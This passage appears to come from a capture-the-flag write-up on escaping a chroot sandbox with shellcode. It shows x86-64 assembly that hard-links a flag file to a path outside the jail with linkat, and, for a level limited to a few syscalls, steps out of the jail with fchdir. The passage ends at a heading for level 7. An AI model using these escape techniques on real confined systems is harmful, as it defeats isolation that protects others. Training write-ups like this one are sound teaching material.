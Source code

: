 A hard link is an entry that associate a name with a file.

This allows us to access `/flag` inside of `/tmp/jail/` using a different name.

Note that `linkat` returns a value of 0 on success.

```armasm
# Linkat syscall
mov rdi, 3
lea rsi, [rip + old_path]
mov rdx, 4
lea r10, [rip + new_path]
mov r8, 0
mov rax, 0x109
syscall

old_path: 
.string "flag"

new_path: 
.string "/flag2.txt"
```

Now we can access `/flag` using `/flag2.txt`.



## level 6

> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "fchdir", "open", "read", "write", "sendfile".

The `fchdir` syscall works similar to `chdir`, the only difference is that it takes a file descriptor as argument.

```c
int fchdir(int fd);
```

So we can effectively just jump out of the `jail/`.

```armasm
# Fchdir syscall
mov rdi, 3
mov rax, 0x51
syscall
```



## level 7
